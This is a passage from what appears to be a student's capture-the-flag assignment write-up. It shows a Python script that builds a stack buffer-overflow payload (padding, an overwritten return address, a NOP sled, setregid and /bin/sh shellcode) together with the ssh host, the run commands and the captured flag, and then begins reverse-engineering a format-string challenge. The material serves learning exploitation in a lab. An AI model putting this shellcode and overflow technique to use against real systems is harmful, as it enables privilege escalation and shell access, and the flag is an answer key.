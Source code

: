 ```
    xor edx, edx
    
    # perform syscall for 11 (execve)
    mov    al, 0xb                # Set eax to 11 (execve syscall number)
    int    0x80                   # Trigger interrupt to make the syscall
```

#### ``hex2binary.py``
* code snippet
```
#!/usr/bin/env python

import sys

# ssh setlev@143.248.38.212 -p 10000
# ./hex2binary.py > payload
# ./setlev --level=$(cat /tmp/hcy_setlev/payload)

# flag: SKCTF{50l0_l3v3l1n6_0w0}

# random 8 + 4 bytes (local variable 8 byte + EBP 4 bytes) == random 12 bytes
random_bytes = "\x41" * 12

# redirection address written on address space...
# where the return address of parseAndFunction resides
return_address = "\x1a\xdd\xff\xff"

# NOP Sled
nop_sled = "\x90" * 512

# setregid
setregid_hex = "\x31\xDB\x66\xBB\xEC\x03\x31\xC9\x66\xB9\xEC\x03\x31\xC0\xB0\x47\xCD\x80"

# # bin_sh.s
bin_sh_hex = "\x31\xC0\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x31\xC0\x50\x53\x89\xE1\x31\xD2\xB0\x0B\xCD\x80"

payload = random_bytes + return_address + nop_sled + setregid_hex + bin_sh_hex

sys.stdout.write(payload)
```



# Problem 5. CTF 3: BadFormat

## Problem 5.a: Reverse Engineer ``badformat``
* function of ``badformat``
    1. allocate 256 bytes of memory, input buffer
    2. allocate 512 bytes of memory, output buffer
    3. write user input from ``stdin`` on 512 buffer (e.g., ``fgets`` and ``snprintf``)
    4. writer output buffer to ``stdout`` (e.g., ``fprintf``)
